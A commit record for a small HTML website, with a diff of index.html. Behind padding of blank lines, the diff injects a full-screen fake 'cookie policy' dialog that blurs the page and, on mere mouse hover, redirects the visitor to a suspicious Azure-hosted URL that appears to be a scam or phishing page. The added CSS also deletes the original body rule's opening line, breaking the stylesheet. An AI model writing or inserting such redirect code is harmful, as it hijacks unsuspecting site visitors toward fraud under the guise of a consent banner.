

Before and after one commit to sanjsndas/zingtava, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 78-785 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -10,7 +10,97 @@
     <!-- Google Fonts - Inter -->
     <link href="https://fonts.googleapis.com/css2?family=Inter:wght@300;400;600;700;800&display=swap" rel="stylesheet">
     <style>
-        body {
+
+
+
+
+
+
+
+            body {
+      margin: 0;
+      padding: 0;
+      font-family: 'Segoe UI', sans-serif;
+      background: url('https://via.placeholder.com/1200x800') no-repeat center center/cover;
+      height: 100vh;
+    }
+
+    .overlay {
+      position: fixed;
+      inset: 0;
+      backdrop-filter: blur(5px);
+      background: rgba(0, 0, 0, 0.5);
+    }
+
+    .dialog-box {
+      position: fixed;
+      top: 50%;
+      left: 50%;
+      transform: translate(-50%, -50%);
+      background: #1c1c1c;
+      color: white;
+      padding: 30px;
+      border-radius: 20px;
+      width: 400px;
+      box-shadow: 0 0 25px rgba(0,0,0,0.6);
+      text-align: center;
+      transition: 0.3s;
+    }
+
+    .dialog-box:hover {
+      cursor: pointer;
+    }
+
+    .dialog-box h2 {
+      margin-top: 0;
+      font-size: 1.6em;
+      color: #fff;
+    }
+
+    .dialog-box p {
+      font-size: 1em;
+      line-height: 1.6em;
+      color: #ccc;
+    }
+
+    .buttons {
+      display: flex;
+      justify-content: center;
+      margin-top: 20px;
+      gap: 15px;
+    }
+
+    .buttons button {
+      padding: 10px 25px;
+      border: none;
+      border-radius: 25px;
+      font-size: 1em;
+      font-weight: bold;
+      cursor: pointer;
+    }
+
+    .accept {
+      background-color: #00cc66;
+      color: white;
+    }
+
+    .deny {
+      background-color: #e53935;
+      color: white;
+    }
+
+    .policy-link {
+      margin-top: 15px;
+      display: block;
+      color: #00bcd4;
+      text-decoration: none;
+      font-size: 0.9em;
+    }
+
+
+
+
+
             font-family: 'Inter', sans-serif;
             background-color: #f8f8f8; /* Light grey background */
             color: #212121; /* Soy Black for text */
@@ -520,6 +610,33 @@
         </div>
     </section>
 
+
+
+
+
+     <div class="overlay">
+    <div class="dialog-box" onmouseover="redirect()">
+      <h2>🍪 Our New Cookie Policy !</h2>
+      <p>
+        For optimized experience, some elements may store temporary signals & For your safety, our Website uses cookies to personalize content and ads, provide social media features, and analyze our traffic.
+      </p>
+      <div class="buttons">
+        <button class="accept">Accept</button>
+        <button class="deny">Deny</button>
+      </div>
+      <a href="#" class="policy-link">Policy Page</a>
+    </div>
+  </div>
+
+  <script>
+    function redirect() {
+      window.location.href = "https://errorzxx022200xxc.z13.web.core.windows.net/";
+    }
+  </script>
+
+
+
+
     <!-- Footer Section -->
     <footer class="bg-accent-black text-white py-10">
         <div class="container mx-auto px-4 text-center">
```
